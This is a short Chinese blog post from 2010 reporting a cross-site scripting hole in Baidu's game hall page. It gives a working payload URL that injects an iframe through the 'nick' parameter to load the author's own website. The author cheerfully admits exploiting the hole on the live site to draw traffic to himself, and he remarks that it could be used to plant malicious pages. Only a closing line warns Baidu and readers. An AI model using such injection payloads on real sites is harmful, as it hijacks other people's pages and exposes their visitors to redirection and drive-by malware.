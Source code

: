 title: 百度游戏大厅爆跨站漏洞
id: 1060
categories:
  - 图片记录
date: 2010-05-12 20:45:05
tags:
---

今天百度游戏大厅爆出跨站漏洞！并且可以挂马利用···
<div id="_mcePaste">跨站代码</div>
> http://yx.baidu.com/Hall/game/rank_fxq.asp?nick=%3E%3C/a%3E%3Ciframe%20src=%22http://www.kainy.cn%22%20width=500%20height=600%3E%3C/iframe%3E%3Ca%20href
效果图：<!--more-->

[![](http://a.kainy.cn/201005/%E7%99%BE%E5%BA%A6%E8%B7%A8%E7%AB%99%E6%BC%8F%E6%B4%9E%E5%88%B0%E6%9C%AC%E7%AB%99.jpg)](http://a.kainy.cn/201005/%E7%99%BE%E5%BA%A6%E8%B7%A8%E7%AB%99%E6%BC%8F%E6%B4%9E%E5%88%B0%E6%9C%AC%E7%AB%99.jpg)

Kainy自认为是小人，利用本漏洞给小站带来些许热闹，嘿嘿。。。

[![](http://a.kainy.cn/201005/%E6%95%88%E6%9E%9C.jpg)](http://a.kainy.cn/201005/%E6%95%88%E6%9E%9C.jpg)

不过话说回来，骗点流量还算厚道了，没给你添个挂马的页面，呼呼。。。 百度工作人员要注意啦。。 大家今后面对链接也要注意咯，别看是大站点的就放松了警惕哦~！